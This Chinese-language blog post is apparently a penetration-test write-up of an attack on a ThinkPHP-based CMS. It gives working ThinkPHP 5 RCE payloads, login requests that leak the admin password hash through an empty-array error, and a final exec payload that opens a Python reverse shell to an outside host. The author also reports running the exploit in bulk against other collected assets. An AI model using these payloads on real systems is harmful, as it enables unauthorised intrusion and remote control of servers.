 ```yaml
---
layout: post
title: "串联脆弱点实现外部打点"
tags: [Hacking, Pentest, Tricks]
comments: true
---
```


## 前言

> [#] Author: xxxeyJ
> [#] Blog: https://tricksongs.com/

前段时间 homie 传给我一个授权项目，希望空了能帮忙看下，拿下目标的过程蛮曲折的，在这里记录一下 `心路历程`，由于打点时部分图片忘记保存，导致文章可能存在 `断层`，见谅；

## 肾透过程

目标是一个 IP 资产，主体服务运行在 `80` 端口上，由于是 IP 资产，且通过各种渠道无法逆推出其域名后 (很可能压根就没有域名解析到此IP) ，然后就打消掉了子域收集的念头，之后就是一套常规操作，端口扫描，对症下药；

## 信息收集

```
1.1.1.1:22	SSH服务	OpenSSH7.4protocol 2.0
1.1.1.1:888	Web服务	Nginx 中间件
1.1.1.1:3306	MySQL服务	MySQL5.7.29-log
1.1.1.1:80	Web服务	Nginx 中间件 反向代理
1.1.1.1:8888	Web服务	Ajenti HTTP Control Panel
```
`22` 端口和 `3306` 端口一般来说没什么好看的，基本无解，主要看一下3个基于 Web服务的端口:  `80`、`888` 、`8888`;

## 探索脆弱点

访问 80 端口重定向到了一个登陆页面，在 `http://1.1.1.1/` 后面随便添加一点垃圾数据, 直接爆出了 ThinkPHP 异常页面，目标启用了调试模式 (debug) 泄露了 ThinkPHP 版本号为 5.12，PHP 版本为 7.3，基于 ThinkPHP 框架二开的 CMS ；

检索了一下网络上的信息，发现关于此 CMS 的内容特别少，近乎没有，通过 FOFA、Zoomeye、SuMap、Quake 等网络空间搜索引擎检索目标资产特征，打算先搞到一份 CMS 的源码再进行下一步行动，结果事与愿违，抓下来的资产列表没有一个资产泄露CMS源码；

ThinkPHP 报错泄露了 Web 目录于 Linux 操作系统中的绝对路径:	`/www/wwwroot/1.1.1.1/`，基本信息差不多就这些，ThinkPHP Version <= 5.23 存在一个 `RCE` ，先朝目标怼了一波 Payload，最后的结果只有这一个 Payload 是可以执行的，原因很简单，有的 Payload 是因为不支持 GET 请求方法，还有的 Payload 无法执行是因为更改了路由，`think` 路由下的模块及日志文件均无法使用，然后就是目标禁用了N个`危险函数`，`Disable_functions` 列表如下: 

```
passthru,system,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
```

看到这个列表蛮头疼的，但是发现好在没有禁用掉 assert 以及 file_put_contents 函数，于是尝试构造 Payload Getshell，但还是因为 PHP 版本过高不支持动态调用便无法 Getshell；

```
POST /

s=file_put_contents('info.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

当前仅可执行如下 Payload;

```
POST /

_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
```

由于目前无法通过 TP5 RCE 的途径 `Getshell`，于是开始尝试审计一下目标的功能点，首先是登录功能，截断一下发起的登录请求，经过测试发现，验证码 `可复用`，不过我并不打算尝试跑字典，这种方式太过无脑而且动静太大，性价比极低，除非万不得已，否则我一般不会走跑字典这条路子；

```
POST /user/index/login HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close

username=admin&password=admin&verify=3523
```

就在这时，我想到了之前和某师傅交流过 ThinkPHP 5.0.X 的一个小 `tricks`，在目标启用了 debug 模式下并通过敏感功能点传递空数组时可能会引起程序异常从而导致敏感信息泄露；

```
POST /user/index/login HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close

username=admin&password[]=&verify=5784
```

成功在 `Error Context` 栏目中拿到管理员的 `Password + Salt` 字段；

![](https://tricksongs.com/images/Hacking_Time/1.jpg)

MD5 解密后顺利登录后台面板，在后台操作的过程中有个功能点与后端产生了数据交互，于是构造一下 `空数组` 直接异常，看到源码之后，芜湖，原地起飞，就贼离谱，直接把 `凭据硬编码` 了，任意一个用户拿着这个密码都可以直接登录面板；

![](https://tricksongs.com/images/Hacking_Time/2.jpg)

后台的功能点蛮多的，但是各个上传点都做了白名单等安全限制，无法 Getshell，蛮遗憾的；

后面由于无法在 80 端口有所突破 ，于是又转到 8888 端口和 888 端口上面，8888 端口的首页是一个宝塔面板的禁止公网访问的提示；

![](https://tricksongs.com/images/Hacking_Time/3.PNG)

看到宝塔和 888 端口，就想起来前段时间的 `phpMyAdmin` 面板未授权访问漏洞，于是构造一下路径 `http://1.1.1.1:888/pma`，尝试访问提示不存在此路径，不巧，看来目标所使用的版本没有此漏洞，想到团队里面有开发宝塔产品的师傅，于是问了一嘴目前有没有宝塔 `前台RCE`，师傅说目前没有，墙裂建议下个版本可以安排一个团队专享版 `RCE` (狗头保命)；

![](https://tricksongs.com/images/Hacking_Time/4.PNG)

然后又对 888 端口和 8888 端口跑了一波字典，没有发现什么有价值的端点，而后又转到 80 端口上面来，先对 80 端口跑了一波字典，跑出来个 install 路径，于是打算尝试一下是否可以利用 `MySQL 文件读取漏洞` 读取目标机的敏感文件，首先判断一下目标程序是否可以对外发起请求，在 VPS 上面使用 nc 监听 3306 端口，然后使用 install 程序连接我的 VPS，发出请求后，VPS 成功接收到了来自目标主机的请求，顿时感觉有戏，于是部署了一下 `Rogue MySQL Server`，本来以为基本上可以结束掉游戏的时候，却突然发现目标禁用掉了MySQL 读取本地文件的功能；

## 收尾工作

当我回过头去看 `Disable_functions` 列表的时候，突然发现目标竟然没有禁用 `exec` ，之前竟然没有发现，我大意了啊，调试了一下 Payload，直接 RCE，然后写了个脚本批量跑了一下之前收集到的资产列表，收工结束；

```
POST /

_method=__construct&filter[]=exec&method=get&server[REWQUEST_METHOD]=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("2.2.2.2",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

## END

A.K.A 穿主流装喝骨头汤的斧头帮的楚留香在熬夜写文章

`Respect`
